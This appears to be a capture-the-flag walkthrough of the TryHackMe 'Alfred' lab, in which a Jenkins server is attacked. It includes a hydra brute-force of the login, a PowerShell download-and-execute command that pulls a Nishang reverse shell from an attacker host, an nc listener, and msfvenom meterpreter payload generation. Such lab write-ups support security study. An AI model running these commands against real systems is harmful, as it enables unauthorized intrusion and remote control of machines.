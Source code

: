# Alfred

https://tryhackme.com/room/alfred

## Resources

- https://github.com/samratashok/nishang
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

## Scanning/Enumeration

### nmap

```sh
nmap -v -T4 -sC -sV $TARGET_IP -Pn -oN nmap/scan.txt

# -v  - verbose
# -sC - default scripts
# -sV - version detect
# -p- - all ports
# -Pn - disable host discovery, only port scan
# -oN - output to file
```

Output to ![nmap/scan.txt](nmap/scan.txt)

- 80: http
  - Microsoft IIS httpd 7.5
- 3389
  - ssl/ms-wbt-server? 6.1.7601
- 8080: http
  - Jetty 9.4.z-SNAPSHOT
- system: alfred
- OS: windows

### gobuster

```sh
gobuster dir --url http://$TARGET_IP:80 -w /usr/share/wordlists/dirb/common.txt
# nothing

gobuster dir --url http://$TARGET_IP:8080 -w /usr/share/wordlists/dirb/common.txt
# nothing
```

### Browser

http://$TARGET_IP:80 => nothing interesting

http://$TARGET_IP:8080 => Jenkins login panel

Interesting request headers:

- `X-Jenkins 2.190.1`
- `X-Hudson 1.395`

## Vulnerabilities

- [Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/19033)

## Exploit

### Jenkins Login

View network request on login. 

Form data: `j_username=test&j_password=test&from=%2F&Submit=Sign+in`

```sh
# brute force with hydra

hydra -s 8080 $TARGET_IP http-form-post \
  "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" \
  -L /usr/share/wordlists/SecLists/Usernames/cirt-default-usernames.txt \
  -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt \
  -vV -f -w 30
# too long...

# google says jenkins default user is admin

hydra -s 8080 $TARGET_IP http-form-post \
  "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" \
  -l admin \
  -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt \
  -vV -f -w 30
# got it;  admin:admin

# cheatsheet:
#
# -s port
# -L use login file
# -P use password file
# -t tasks in parallel
# -w max wait seconds
```

Credentials: `admin:admin`

### Setup Reverse Shell

```sh
# attack box

# download exploit
curl -LJO https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

# serve up exploit (:8000)
python3 -m http.server

# listen for reverse shell
nc -lvnp 9000
```

```batch
REM  target
REM  Jenkins build step

WHOAMI
REM alfred\bruce

REM  download and execute reverse shell
POWERSHELL iex (New-Object Net.WebClient).DownloadString('http://$ATTACKER_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $ATTACKER_IP -Port 9000
```

```ps1
# target
# get flag

type C:\Users\bruce\Desktop\user.txt
```

### Setup Meterpreter Shell

```sh
# attacker

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe -o enki.exe
```